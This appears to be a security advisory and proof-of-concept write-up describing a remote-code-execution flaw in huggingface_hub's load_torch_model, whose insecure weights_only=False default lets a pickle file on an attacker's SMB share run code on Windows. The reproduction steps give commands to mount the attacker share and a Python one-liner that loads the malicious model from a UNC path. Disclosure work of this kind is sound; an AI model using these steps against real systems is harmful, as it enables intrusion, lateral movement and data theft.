


# `huggingface_hub` - Version `1.11.0` / Remote Code Execution (RCE) via Insecure Deserialization (Supply Chain RCE via `load_torch_model` Defaults)

* https://pypi.org/project/huggingface-hub/
* https://github.com/huggingface/huggingface_hub

## Introduction

**Below are one (1) way to reproduce RCE in `huggingface_hub` using an SMB shared, controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

The `huggingface_hub` package provides a serialization utility module for PyTorch, found in `serialization/_torch.py`. The function `load_torch_model()` is designed to load model weights into a target `nn.Module`. However, this function defaults to `weights_only=False`, which triggers unrestricted `pickle.load` inside the underlying `torch.load` primitive. On Windows systems, this vulnerability can be exploited remotely by passing a **Universal Naming Convention (UNC)** path (e.g., `\\attacker-ip\share\pytorch_model.bin`). Windows transparently treats this remote resource as a local file, forcing the library to fetch and deserialize the attacker-controlled pickle payload, resulting in full Remote Code Execution (RCE).

### The vulnerable code in `huggingface_hub/serialization/_torch.py`:

```python
def load_torch_model(
    model: "torch.nn.Module",
    checkpoint_path: str | os.PathLike,
    *,
    # ...
    weights_only: bool = False, # <--- INSECURE DEFAULT
    # ...
):
    # This eventually calls torch.load(checkpoint_path, weights_only=False)
    state_dict = load_state_dict_from_file(
        checkpoint_path, 
        weights_only=weights_only, 
        # ...
    )
```


## Technical Impact Analysis

### Project Purpose & Context

Hugging Face Hub aims to provide a unified serialization API for various ML frameworks. `load_torch_model` is a convenience helper for developers to load weights without worrying about the underlying format (Safetensors vs. Pickle). By choosing `weights_only=False` as the default, the library prioritizes compatibility over security, ignoring the industry-wide move toward "Safe Weights" (Safetensors) and restricted pickling.

### Platform & Deployment Environment

This vulnerability specifically impacts **Windows-based AI/ML development pipelines** and **DevOps automation**. Since SMB/UNC paths are standard in enterprise Windows environments, an attacker can exploit internal network shares to distribute malicious models or hijack automated testing routines that point to shared network drives.

### Comprehensive Risk Assessment

The risk is categorized as **CRITICAL**. It represents a failure in both **Default Security Configuration** and **Input Validation**. The ability to redirect a "local file loading" primitive to a remote network share (UNC) effectively turns a local deserialization flaw into an unauthenticated remote execution vector. This is a classic "Supply Chain" attack where the trust placed in a shared network resource is abused.


## Attack Scenario

### Who wants to exploit a particular vulnerability?

Threat actors seeking to pivot within a corporate network or malicious insiders aiming to compromise high-performance computing clusters. 

### For what gain?

Lateral movement, data exfiltration from training datasets, or persistence on developer workstations. By executing code during a routine model evaluation or deployment process, the attacker gains the same privileges as the ML engineer.

### In what way?

By compromising a shared network drive (SMB) and replacing a legitimate model binary with a malicious one, or by socially engineering a developer to "try out" a model using its network path. The victim assumes that loading a "file" from a path is safe, unaware that Windows will negotiate a remote SMB connection and `huggingface_hub` will execute the contained code.


# Reproduction steps

## On the Raspberry (attacker) - IP 192.168.1.90

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

### Run the exploit to generate and serve the malicious `pytorch_model.bin`

```bash
python exploit.py
```



## On Windows (victim) - IP 192.168.1.88

```
(.venv) PS L:\Deserializer\PYPI-huggingface_hub> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
(.venv) PS L:\Deserializer\PYPI-huggingface_hub>
```

1. Create a `.venv`, activate it, and install the latest updated version (`1.11.0`) of `huggingface_hub` using `pip install huggingface-hub`. 
2. Additionally, it is necessary to install `PyTorch` to create a complete testing environment: `pip install torch`.
3. Active the SMB shared: `net use Z: \\192.168.1.90\lab_share /persistent:no`
4. And then lauch the command to trigger the RCE from the victim machine:

```
python -c "import torch; from huggingface_hub.serialization._torch import load_torch_model; getattr(torch.serialization, 'add_safe_globals', lambda x: None)([eval]); m=torch.nn.Module(); load_torch_model(m, r'\\192.168.1.90\lab_share\pytorch_model.bin')"
```

